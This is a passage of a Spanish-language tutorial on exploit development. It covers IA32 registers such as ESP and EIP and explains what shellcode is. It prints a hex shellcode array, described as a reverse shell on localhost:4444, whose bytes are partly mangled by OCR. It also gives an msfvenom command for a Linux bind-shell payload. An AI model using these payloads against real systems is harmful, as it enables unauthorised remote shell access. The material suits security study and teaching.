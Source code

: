 Como para todo en esta disciplina, podemos acudir a los **manuales oficiales de
Intel** si necesitamos refrescar nuestros conocimientos sobre ensamblador. Para el
resto de los conceptos podemos utilizar cualquier libro sobre arquitectura de
computadores.

Conocer cómo funcionan los **registros** en un procesador **IA32** y cómo son
manipulados a través del **lenguaje ensamblador** es esencial para el exploiting, ya
que a través de este son accesibles, legibles y modificables. Podemos agruparlos
en cuatro categorías:

1. **Propósito general:** Realización de operaciones matemáticas, guardar datos y
    direcciones, offsets... **ESP es el más importante para nosotros,** pues apunta a
    la dirección donde encontramos el último valor que ha entrado al **stack.** Estos
    registros son de **32 bits**.
2. **Segmento:** Se usan para controlar ciertos segmentos del programa y por
    retrocompatibilidad de aplicaciones de **16 bits**.
3. **Control:** Controlar el funcionamiento del procesador. El más importante es **EIP**
    **(Extended Instruction Pointer),** que contiene la dirección de la próxima
    instrucción a ejecutar. Si queremos controlar el flujo de ejecución de un
    programa es necesario poder acceder y cambiar el valor guardado en **EIP.
4. Otros – EFLAGS.**

## 3.Shellcode

```
unsigned char buf[] =
"\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x
\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\
x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\x
b1\x03\x89\xf3\x31\xc0\xb 0 \x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xc
d\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x
\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";
```
Shellcode que inicializa una Shell reversa en localhost:4444. Fuente: exploit-db.com

El **Shellcode** es un conjunto de instrucciones que se inyecta en la memoria de un programa
vulnerado para manipular su funcionamiento. Se escriben en ensamblador y se traducen a
**opcodes hexadecimales.**

El término deriva del propósito original de estas piezas de ensamblador – conseguir una shell
con privilegios en un sistema. Sigue siendo lo más común, pero no es lo único que se puede
conseguir.

Una de las formas de manipular un programa es obligarlo a realizar una llamada al sistema,
**syscall** para abreviar. Permiten acceder directamente al kernel, lo que nos da acceso a
funciones de bajo nivel como lectura y escritura de archivos. Más información sobre ellas aquí.

Podemos encontrar shellcode (y mucho más) en exploit.db.com.

Si tenemos **Metasploit** instalado, podemos generar shellcode rápidamente con el siguiente
comando:
```
$ msfvenom -a x64 --platform linux -p linux/x64/shell/bind_tcp -b "\x00"
```
